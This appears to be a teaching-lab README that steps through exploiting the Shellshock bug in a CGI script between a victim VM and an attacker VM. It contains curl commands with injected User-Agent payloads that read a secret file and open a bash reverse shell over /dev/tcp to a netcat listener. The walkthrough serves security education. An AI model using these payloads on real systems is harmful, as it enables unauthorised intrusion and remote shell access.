



## Getting a Reverse Shell via Shellshock Attack

### Setup

Two VMs: the victim, and the attacker.

### Preparation

1. on the victim VM, copy the cgi script (myprog.cgi, located at the same folder as this README file) into /usr/lib/cgi-bin.

```console
[05/16/22]seed@VM:~$ ls /usr/lib/cgi-bin/
[05/16/22]seed@VM:~$ sudo cp myprog.cgi /usr/lib/cgi-bin/
[05/16/22]seed@VM:~$ ls /usr/lib/cgi-bin/
myprog.cgi
```

2. on the victim VM, change the cgi script's permission to 755.

```console
[05/16/22]seed@VM:~$ sudo chmod 755 /usr/lib/cgi-bin/myprog.cgi
[05/16/22]seed@VM:~$ ls -l /usr/lib/cgi-bin/myprog.cgi 
-rwxr-xr-x 1 root root 84 May 16 13:10 /usr/lib/cgi-bin/myprog.cgi
```

3. on the victim VM, use the browser to test the cgi web page works: type http://localhost/cgi-bin/myprog.cgi in the browser address bar. As shown in this screenshot:


4. on the victim VM, create a secret file in the /usr/lib/cgi-bin folder (note: you need sudo to create anything inside /usr/lib/cgi-bin/secret):

```console
[05/16/22]seed@VM:~$ cat /usr/lib/cgi-bin/secret 
This is a secret.
```

### Launch the Attack

5. on the victim VM, accessing the secret file directly from your browser won't work:


6. on the victim VM, accessing the secret file using curl still doesn't work:



7. yet, on the victim VM, accessing the secret file via the cgi script works:

```console
[05/16/22]seed@VM:~$ curl -v http://localhost/cgi-bin/myprog.cgi -A "() { :; }; echo Context-Type: text/plain; echo; /bin/cat secret;"
```

as the screenshot shows:


### Get a Reverse Shell

8. on the attacker VM, open a terminal window and in that window run *nc -lv 9090* to listen on port 9090.


9. on the attacker VM, open a different terminal window and run this: (remember to replace 172.16.77.128 with the victim VM's ip address, and replace 172.16.77.129 with the attacker VM's ip address)

```console
curl -v http://172.16.77.128/cgi-bin/myprog.cgi -A "() { :; }; echo Context-Type: text/plain; echo; /bin/bash -i > /dev/tcp/172.16.77.129/9090 0<&1 2>&1"
```

before pressing enter:


after pressing enter:


10. now switch to the *nc* terminal window, and we see the reverse shell is created:



and it's confirmed via the *ifconfig* command.



